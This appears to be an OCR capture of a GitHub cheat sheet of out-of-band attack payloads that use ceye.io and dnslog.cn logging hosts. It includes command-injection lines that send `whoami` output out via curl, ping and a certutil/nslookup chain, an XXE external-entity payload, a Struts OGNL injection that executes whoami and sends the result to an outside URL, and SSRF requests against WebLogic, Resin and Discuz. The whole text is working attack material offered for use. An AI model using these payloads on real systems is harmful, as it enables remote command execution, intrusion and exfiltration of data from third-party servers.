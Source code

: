    #### 命令执行
	>curl http://0ox095.ceye.io/`whoami`
	>ping `whoami`.b182oj.ceye.io
	>ping %CD%.lfofz7.dnslog.cn 
	&
	cmd /v /c "whoami > temp && certutil -encode temp temp2 && findstr /L /V "CERTIFICATE" temp2 > temp3 && set /p MYVAR=< temp3 && set FINAL=!MYVAR!.xxx.ceye.io && nslookup !FINAL!"
  #### XXE
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE root [
	<!ENTITY % remote SYSTEM "http://b182oj.ceye.io/xxe_test">
	%remote;]>
	<root/>
  #### Struts
	xx.action?redirect:http://b182oj.ceye.io/%25{3*4}
	xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
  #### weblogic
	/uddiexplorer/SearchPublicRegistries.jsp?operator=http://b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
  #### Resin
	xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://b182oj.ceye.io/ssrf
  #### Discuz
	/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo